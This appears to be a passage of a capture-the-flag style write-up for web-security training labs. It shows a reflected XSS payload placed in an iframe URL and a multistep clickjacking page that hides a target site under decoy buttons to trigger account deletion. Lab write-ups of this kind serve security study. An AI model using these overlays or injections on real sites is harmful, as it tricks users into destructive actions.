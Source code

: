 ```
    src="https://0a64006f04e839eb81b83916008e00d4.web-security-academy.net/feedback?name=name%3Cimg%20src=X%20onerror=print()%3E&email=email@email.com&subject=subject&message=message"
></iframe>
</body>
```

Here we needed to get rid of `sandbox` tag, because of the error:

```
Access to XMLHttpRequest at 'https://0a64006f04e839eb81b83916008e00d4.web-security-academy.net/feedback/submit' from origin 'null' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.
```

## Multistep clickjacking

Here deleting the account is separated into two steps with confirmation, but we can see that both of that pages does not contain neccessary headers to protect them from Clickjacking.

Here we would require two clicks, so we can prepare two buttons in different positions:

```
<head>
<style>
    #target_website {
        position:relative;
        width:1000px;
        height:1000px;
        opacity: 0.0005;
        z-index:2;
        top: 0;
        left: 0;
    }
    #decoy_website {
        position:absolute;
        width:100%;
        height:100%;
        z-index:1;
    }
    #click1 {
        position: absolute;
        top: 500;
        left: 30;
        padding: 5;
        width: 120;
    }
    #click2 {
        position: absolute;
        top: 300;
        left: 195;
        padding: 5;
        width: 100;
        font-size: 10;
    }
</style>
</head>
<body>
<div id="decoy_website">
    <button type="button" id="click1">
        Click me first
    </button>
    <button type="button" id="click2">
        Click me second
    </button>
</div>
```